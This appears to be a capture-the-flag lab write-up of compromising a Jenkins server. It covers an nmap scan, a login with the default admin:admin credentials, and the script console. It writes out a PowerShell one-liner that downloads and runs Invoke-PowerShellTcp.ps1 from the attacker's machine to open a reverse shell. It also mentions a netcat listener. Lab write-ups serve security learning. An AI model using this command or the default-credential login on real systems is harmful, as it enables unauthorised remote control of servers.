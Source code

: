 
# First Section

Used nmap to discover open TCP and UDP ports, and to see what machine it was (OS), giving the answer of how many TCP ports are opened:

SCREEN01

nmap discovered 3 ports. 
Port 80 is the website hosted on the host, 8080 is the port to access Jenkins’s instance. 
I researched the default credentials for Jenkins, tried those and was successful to get in the Web GUI of Jenkins (admin:admin) and to the script console Jenkins page where we want to insert the Powershell command we will mention later.

SCREEN02 SCREEN03

Now we need to establish a tunnel between my machine and the host. On the machine, we need to use netcat to create a listener and we need to create a socket for HTTP server. On the Jenkins host, we need to use this command to get the reverse shell on your machine and then run it: *powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port*

Before I get Jenkins to execute this command, I must start a Python HTTP server on my AttackBox that will serve the *Invoke-PowerShellTcp.ps1* script. I did this with the following command that is on a working directory with *Invoke-PowerShellTcp.ps1* PowerShell script:

SCREEN04

I also setup a reverse netcat listener on my AttackBox with the following command to listen in for the PowerShell reverse shell:

SCREEN05
